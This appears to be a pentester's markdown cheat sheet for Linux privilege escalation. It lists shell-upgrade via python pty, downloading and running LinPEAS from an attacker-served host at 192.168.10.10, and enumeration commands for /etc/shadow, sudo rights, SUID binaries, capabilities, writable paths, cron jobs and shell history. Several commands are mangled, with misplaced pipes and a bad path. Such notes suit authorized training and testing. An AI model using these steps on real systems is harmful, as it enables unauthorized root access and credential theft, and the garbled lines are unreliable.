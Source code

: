- Start with automated tools like LinPEAS, then proceed with manual enumeration. The following command is used to get a TTY shell
-  full access shell

```sh
python3 -c 'import pty; pty.spawn(["/bin/bash", "--rcfile", "/etc/bash.bashrc"])' 
```

  
### Automated Tools

```sh
python -m http.server 80
wget http://192.168.10.10/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh | ./linpeas.sh | ( ./linpeas.sh | tee filename.txt  )
```

### Manual Enumeration

- Approach permission checker/cron job/

- check read/write permission | sudo su

```
ls -la /etc/passwd/ | ls -la /etc/shadow 
```

```
 sudo -l 
```

```
find / -user root -perm -4000 -print 2>/dev/null
```

- (capabilities)(cap_setuid+ep)

```
 getcap -r / 2>/dev/null 
```

```
find / -perm -u=s -type f 2>/dev/null
```

```
find / -type f -perm 0777 | find / -writable -type d 2>/dev/null
```

-  (wildcarts)

cat /etc/crontab (normal) | grep "CRON" /var/log/syslog

```
history | cat .bashrc
```

- Backup files
